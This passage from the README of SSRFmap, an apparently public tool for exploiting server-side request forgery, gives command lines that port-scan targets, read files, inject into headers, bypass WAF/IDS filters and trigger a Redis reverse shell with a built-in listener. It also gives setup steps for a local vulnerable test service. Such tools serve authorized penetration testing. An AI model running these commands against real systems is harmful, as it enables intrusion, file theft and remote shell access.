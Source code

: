 Use the `-m` followed by module name (separated by a `,` if you want to launch several modules).

```powershell
# Launch a portscan on localhost and read default files
python ssrfmap.py -r examples/request.txt -p url -m readfiles,portscan
```

If you want to inject inside a header, a GET or a POST parameter, you only need to specify the parameter name

```powershell
python ssrfmap.py -r examples/request6.txt -p X-Custom-Header -m readfiles --rfiles /tmp/test
```

If you need to have a custom user-agent use the `--uagent`. Some targets will use HTTPS, you can enable it with `--ssl`.

```powershell
# Launch a portscan against an HTTPS endpoint using a custom user-agent
python ssrfmap.py -r examples/request.txt -p url -m portscan --ssl --uagent "SSRFmapAgent"
```

Some modules allow you to create a connect back, you have to specify `LHOST` and `LPORT`. Also SSRFmap can listen for the incoming reverse shell.

```powershell
# Triggering a reverse shell on a Redis
python ssrfmap.py -r examples/request.txt -p url -m redis --lhost=127.0.0.1 --lport=4242 -l 4242

# -l create a listener for reverse shell on the specified port
# --lhost and --lport work like in Metasploit, these values are used to create a reverse shell payload
```

When the target is protected by a WAF or some filters you can try a wide range of payloads and encoding with the parameter `--level`.

```powershell
# --level : ability to tweak payloads in order to bypass some IDS/WAF. e.g: 127.0.0.1 -> [::] -> 0000: -> ...
```

## SSRFmap Tests

A quick way to test the framework can be done with `data/example.py` SSRF service.

* Local
  ```powershell
  FLASK_APP=examples/example.py flask run &
  python ssrfmap.py -r examples/request.txt -p url -m readfiles
  ```

* Docker
  ```ps1
  docker build --no-cache -t ssrfmap .
  docker run -it -v $(pwd):/usr/src/app --name example ssrfmap examples/example.py
  docker exec -it example python ssrfmap.py -r examples/request.txt -p url -m readfiles
  ```
